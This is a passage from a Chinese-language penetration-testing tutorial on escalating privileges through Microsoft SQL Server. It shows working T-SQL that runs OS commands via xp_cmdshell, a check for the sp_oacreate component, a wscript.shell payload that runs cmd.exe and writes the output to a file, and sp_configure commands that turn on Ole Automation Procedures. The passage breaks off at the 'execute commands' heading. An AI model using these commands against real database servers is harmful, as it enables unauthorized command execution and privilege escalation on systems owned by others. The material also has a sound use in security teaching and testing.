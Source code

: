 ```mssql
EXEC master.dbo.xp_cmdshell 'whoami'
```

<img src="https://s2.loli.net/2023/03/21/lRtsV2dTSr7hyb8.png" alt="image-20230321121508605" style="zoom:50%;" />

## sp_oacreate组件提权

在xp_cmdshell被删除或不能利用是可以考虑利用sp_oacreate，利用前提需要sqlserver sysadmin账户服务器权限为system。sp_oacreate 是一个存储过程，可以删除、复制、移动文件，还能配合 sp_oamethod 来写文件执行系统命令。

### 判断组件是否存在

输入下面的命令，如果返回是1证明，组件是存在的，反之则不存在。

```mssql
select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE'
```

<img src="https://s2.loli.net/2023/03/21/V3gXcNTl8LZfqOM.png" alt="image-20230321123005904" style="zoom:50%;" />

### 判断组件是否开启

通过测试发现组件并未开启。

```mssql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\1.txt'
```

<img src="https://s2.loli.net/2023/03/21/veBtV7EhfSgFjZm.png" alt="image-20230321123433391" style="zoom:50%;" />

### 开启组件

通过执行下列命令开启组件。

```mssql
开启：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE WITH OVERRIDE

关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE WITH OVERRIDE;
```

<img src="https://s2.loli.net/2023/03/21/37CBxzt1RqTIY6r.png" alt="image-20230321123541320" style="zoom:50%;" />

### 执行命令
